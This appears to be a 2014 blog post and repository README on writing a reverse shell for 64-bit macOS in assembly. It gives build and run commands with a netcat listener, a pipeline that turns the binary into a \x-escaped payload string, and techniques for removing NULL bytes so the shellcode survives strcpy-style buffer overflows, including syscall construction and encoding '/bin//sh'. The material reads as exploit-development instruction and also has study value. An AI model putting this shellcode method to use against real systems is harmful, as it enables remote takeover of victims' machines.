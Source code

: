```yaml
---
layout: post
title: "Reverse shell"
date: 2014-05-20 20:22:22 +0200
comments: false
categories: 
---
```

reverse_shell
=============
My first attempt was to write a reverse shell to be used in Mac OSX 64-bit system, one of the first obstacles was to find the header file
with the id for syscalls. After some google I found an excellent page with them 
[here](http://www.opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master "syscalls"). The first steep was to write some 
c code that did the same job and from that deduce the correct order of the syscalls. This resulted in the file reverse_shell.s, 
and keep in mind that in 64-bit the calls need to be in the form, `0x2000061` for the syscall `61`. The complete code for
[reverse_shell.s](https://github.com/chrjoh/shell_code/blob/master/reverse_shell/reverse_shell.s "reverse_shell.s"). 
The [page](http://cocoafactory.com/blog/2012/11/23/x86-64-assembly-language-tutorial-part-1/)
have a good description of the registers and the naming it also include a tutorial to assembly programming. The first order of business
is to change from the nasm that apple supply, go to 
[nasm download osx](http://www.nasm.us/pub/nasm/releasebuilds/2.11.02/macosx/) and download the macox version.


#### reverse_shell, Usage:
  Program that call out to a service that is listening to port 4444, the ip is set to any for simplicity.
  It is written for mac osx 64 bit

  Start a listening server with the command: `nc -l 4444` in another folder for example your home directory
```
  nasm -g -f macho64 reverse_shell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o reverse_shell reverse_shell.o
  ./reverse_shell
```  
To use the code as a string payload, one need to remove the NULL bytes, these can be found by running: otool -lV reverse_shell and identify
the mov instructions that need to be modified. The reason are the numerous NULL bytes (\x00). 
Most buffer overflow errors are related to C stdlib string functions: strcpy(), sprintf(), strcat(), 
and so on. All of these functions use the NULL symbol to indicate the end of a string. 
Therefore, a function will not read shellcode after the first occurring NULL byte.
There are other delimiters like linefeed (0x0A), carriage return (0x0D), 0xFF, and others.

#### Binary to string
To convert the binary to string values that can be used as a payload use
```
  gobjdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g' > dump.txt
```
  By inspecting this file, we see quite few NULL(0x00) and these has to be removed
  A simple `paste -d'\0' -s dump.txt` will combine all rows into one that can then be copied into the C file.
  Ànother way to find bad values is:
```
 gobjdump -D reverse_shell -M intel |grep 00
``` 

By using the above and to find the problematic instructions and that most of them include the `mov` instruction and that the data we move
is stored in the lowest byte of the 64-bit registers. We can use `mov dil, 2` instead of `mov rdi, 2`. Using this and that we can construct
the syscall setuid `mov rax, 0x2000017` by using the following instructions 
```
 mov r8b, 0x02               ; unix class system calls = 2
 shl r8, 24                  ; shift left 24 to the upper order bits
 or r8, 0x17                 ; setreuid is 0x17
 mov rax, r8                 ; put setreuid syscall # into rax
```
The last part is now to get rid of the NULL terminated string `db '/bin/sh', 0` this we do by using a simple ruby command
(remember that osx is little endian)

```
  "/bin//sh".unpack('H*')
  => ["2f62696e2f2f7368"] and that give us the value to use as: 0x68732f2f6e69622f
```
The result of doing these manipulations can be found in 
[reverse_shell_no_bad_values.s](https://github.com/chrjoh/shell_code/blob/master/reverse_shell/reverse_shell_no_bad_values.s "reverse_shell_no_bad_values.s")
A more simple command to use is the osx otool, `otool -t reverse_shell_no_bad_values.o` to generate the hex values we need to be able to 
test our reverse_shell code in a simple c-program, 
[reverse_shell_test.c](https://github.com/chrjoh/shell_code/blob/master/reverse_shell/reverse_shell_test.c "reverse_shell_test.c").
Start your netcat server `nc -l 4444` then run the c code and it should call out to you can check that it works by doing some normal
shell commands. To simplify the compilation you can use the supplied Makefile.
